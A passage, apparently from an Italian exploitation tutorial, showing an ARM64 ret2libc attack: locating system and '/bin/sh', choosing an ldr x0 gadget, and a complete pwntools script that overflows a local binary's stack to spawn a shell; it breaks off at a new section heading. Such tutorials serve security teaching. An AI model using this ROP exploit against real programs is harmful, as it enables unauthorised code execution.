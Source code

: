 ### Trova system e stringa `/bin/sh`

Poiché l'ASLR è disabilitato, gli indirizzi saranno sempre gli stessi:

<figure><img src="../../../.gitbook/assets/image (1222).png" alt=""><figcaption></figcaption></figure>

### Trova Gadgets

Dobbiamo avere in **`x0`** l'indirizzo della stringa **`/bin/sh`** e chiamare **`system`**.

Utilizzando rooper è stato trovato un gadget interessante:
```
0x000000000006bdf0: ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```
Questo gadget caricherà `x0` da **`$sp + 0x18`** e poi caricherà gli indirizzi x29 e x30 da sp e salterà a x30. Quindi, con questo gadget possiamo **controllare il primo argomento e poi saltare a system**.

### Exploit
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000
binsh = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
system = libc.sym["system"]

def expl_bof(payload):
p.recv()
p.sendline(payload)

# Ret2main
stack_offset = 108
ldr_x0_ret = p64(libc.address + 0x6bdf0) # ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x18 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
p.close()
```
## Ret2lib - Bypass NX, ASL e PIE con leak di printf dallo stack
```c
#include <stdio.h>

void printfleak()
```